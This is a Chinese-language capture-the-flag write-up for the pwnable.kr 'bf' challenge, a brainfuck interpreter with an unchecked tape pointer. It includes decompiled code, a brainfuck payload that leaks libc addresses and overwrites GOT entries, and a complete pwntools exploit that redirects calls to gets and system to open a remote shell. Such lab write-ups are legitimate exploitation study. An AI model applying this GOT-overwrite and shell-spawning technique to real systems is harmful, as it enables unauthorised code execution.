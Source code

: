 # pwnable--pwn--bf

题目有关brainfuck

main函数

```c
 p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(s, 0, 0x400u);
  fgets(s, 1024, stdin);
  for ( i = 0; i < strlen(s); ++i )
    do_brainfuck(s[i]);
  return 0;
```

do_brainfuck

```c
result = a1;
  switch ( a1 )
  {
    case '+':
      result = p;
      ++*(_BYTE *)p;                            // 指针指向的内容加1
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();                       // 输入内容到指针指向的单元内容
      *v2 = result;
      break;
    case '-':
      result = p;                               // 指针指向的内容减1
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(char *)p);             // 输出指针指向的单元内容
      break;
    case '<':
      result = p-- - 1;                         // 指针减1
      break;
    case '>':
      result = p++ + 1;                         // 指针加1
      break;
    case '[':
      result = puts("[ and ] not supported.");   //while(*ptr){
      break;
    default:
      return result;
  }
  return result;
```

这个程序的功能就是：

0x1  用户输入一段fk程序

0x2  将其翻译并执行   

这里注意：执行时还是在这个进程中 甚至可以说在这个函数中，他并没有任何隔离措施，所以我们可以使用bf来输出和写入这个进程的内存

题目给了个libc.so,估计就是改写got表

main()中的三个函数：puts() ,memset(), fget(). 

memset()和 fgets()的参数都是同一个  我们就将 memset()改为gets(),将fgets()改为system()

memset和fgets的got地址可以利用可执行文件得到

gets和system需要获得偏移地址

那么我们就要得到putchar函数，输出真实地址求偏移

### 第一步 利用bf构造语句输出putchar地址

ptr地址

```
.bss:0804A0A0 tape            db    ? ;               ; DATA XREF: main+6D↑o
.bss:0804A0A1                 db    ? ;
.bss:0804A0A2                 db    ? ;
```

memset_got: 0x804a02c

putchar_got：0x804A030

```
 extrn memset:near       ; CODE XREF: _memset↑j
extern:0804A4C0                                         ; DATA XREF: .got.plt:off_804A02C↑o
extern:0804A4C4 ; int putchar(int c)
extern:0804A4C4                 extrn putchar:near      ; CODE XREF: _putchar↑j
extern:0804A4C4                                         ; DATA XREF: .got.plt:off_804A030↑o
```

bf语句

```
'>'*(0x0804a0a0-0x0804a030)
+'.'				juck code
+'.>'*4             输出putchar全局地址
+'<'*4
+',>'*4				write put_char
+'<'*(4+4)
+',>'*4             write memset
+'<'*(0x2c-0x10+4)
+',>'*4            write fgets
+'.'               最后调用printchar 实际是main
```

main 地址 0x8048671

### 第二步 计算system和get

exp:

```
from pwn import *

r=remote("pwnable.kr",9001)
e=ELF('./bf_libc.so')

r.recvuntil('[ ]\n')
r.sendline("<"*0x70+'.'+'.>'*4+'<'*4+',>'*4+'<'*8+',>'*4+'<'*(0x2c-0x10+4)+',>'*4+'.')
r.recv(1)
putchar_addr=u32(r.recv(4))


libc_offset = putchar_addr - e.symbols['putchar'];

gets_addr = libc_offset + e.symbols['gets'];

sys_addr = libc_offset + e.symbols['system'];
main_addr = 0x08048671

r.send(p32(main_addr))
r.send(p32(gets_addr))
r.send(p32(sys_addr))

r.sendline('/bin/sh\0')
r.interactive()


```


